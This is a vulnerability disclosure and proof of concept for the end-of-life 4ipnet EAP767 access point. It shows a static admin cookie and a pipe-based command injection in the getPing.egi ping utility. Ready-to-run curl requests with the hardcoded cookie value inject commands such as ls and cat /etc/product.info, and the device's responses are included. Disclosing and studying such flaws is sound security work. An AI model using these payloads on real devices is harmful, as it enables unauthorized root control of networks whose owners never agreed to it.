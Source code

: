 # 4ipnet/EAP767 WRT Vulnerabilities
## Overview
4ipnet/EAP767 WRT is vulnerable to Incorrect Access Control and Os Command Injection
## Products Affected
EAP767 - 3.42.00
## Description
- The device is vulnerable to Incorrect Access Control. It uses the same set of credentials, regardless of how many times a user logs in, the content of the cookie remains unchanged.
- A command injection vulnerability was found within the web interface of the device.
## Impact
An attacker may inject arbitrary shell commands with valid credentials, and it be executed by the device with root privileges.
## Solution
Stop using the products and switch to alternative products
The developer states that the support for the affected product ended in Oct 2020, and the firmware updates will not be provided.

The login web page is exposed to internet, and it's used for 4ipnet wireless network controller
> Search online documents to obtain the default password for the device.

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_247c7496749603bc7b9772d11afd7ba4.png)

**Web console features**

System Overview
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_fa6cb02d32f831033c013c4142586a4f.png)

Network Utilities
`allowing network tests such as ping, tracert, arping, etc., to be performed through the web page.`
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_9925e6bd58df1d54d022f404504adbef.png)

## Exploit
**Phase 1 @ Browser**

The front-end performs input text validation to check whether the input text is compliant
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_0d41715f59b4037ce1b9dcea6c9d31ce.png)

Turn to the backend, analysis HTTP request characteristics from the network
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_b87e4fa1fea137d1feba67001f4ca104.png)
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_354d5ac2dd8284e800fa818cf166f489.png)


We gather two http request characteristics.
```asp!
# request 1
http://{host}/getPing.egi?url=127.0.0.1

# request 2
http://{host}/getPing.egi?pid=940
```
> It can be observed that its ping function first sends the url as a query string parameter, obtains the pid, then retrieves ping output in batches through the pid parameter, and finally presents the results on the web page

It was found that the management interface relies solely on the cookie name/value as the basis for user identification
> Using the same set of credentials (admin), regardless of how many times you log in, the content of the cookie remains unchanged.

| Name | Value |
| -------- | -------- |
| username     | admin    |
| password     |  17lgP6vqCV1Ko   |

![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_3ecdb0b545bf10be16816293036534e8.png)


**Phase 2 @ cmd**

Using the curl tool to simulate an HTTP request to access the management interface home page, it was redirected to the login page
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_f3925ef9b1edaae1b762ad800322d80d.png)

Using the curl tool to simulate an HTTP request and including the aforementioned obtained cookie, it was confirmed that access to the authenticated management interface home page is possible
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_a76b368249757b325d6f3bcc4ab24d88.png)

Attempted to access the `getPing.egi` file and escape the query string parameter url using special characters (;, |) in an attempt to evade security and inject a specified command

**Attemp 1 with `;`**
Detected as invalid characters by the backend program.
```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1;"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:49:25 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 29
Connection: keep-alive
Keep-Alive: timeout=60, max=100

Illegal Characters of URL.
OK%                              
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_6b5b52a9a94d27f7ace8850892ba7f77.png)

**Attemp 2 with `|`**
Successful escape!!! and obtained pid!!!

```zsh!
❯ curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=127.0.0.1|"
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 01:52:49 GMT
Server: Mbedthis-Appweb/2.4.2
Cache-Control: no-cache
Content-type: text/html
Content-length: 4
Connection: keep-alive
Keep-Alive: timeout=60, max=100

3704%      
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_77cdaa3fe2e0c85b8506ec8aa926a65b.png)

Inject Target with `ls` to list the current directory.
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_686276a082e16b2f204e75e987d55b0f.png)

Inject Target with `ls -l` to display the current directory structure, file permissions, file types, modification dates, and other information."
```zsh!
 curl -i -b "username=admin; password=17lgP6vqCV1Ko" "http://{host}/getPing.egi?url=|ls%20-l"
 ```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_caee4f89b8ef4271c2f50521c479fe61.png)



## Verify the device product and model.
```zsh!
curl -b "username=admin; password=17lgP6vqCV1Ko" "{host}/getPing.egi?url=|cat%20/etc/product.info"
```
![image](https://github.com/yckuo-sdc/PoC/blob/master/image/upload_c8581cfbd913fe193766cbad839cefc7.png)

## Conclusion
The presence of a Remote Code Execution (RCE) vulnerability is in the product. Arbitrary commands can be executed by passing the url parameter.

## Reference
- https://hkitblog.com/12770/
- https://www.lienshen.com.tw/sidebar1_01-2-11.html
- https://www.netadmin.com.tw/netadmin/zh-tw/snapshot/0E91A5D929C04C40AB6A6B88592725E1

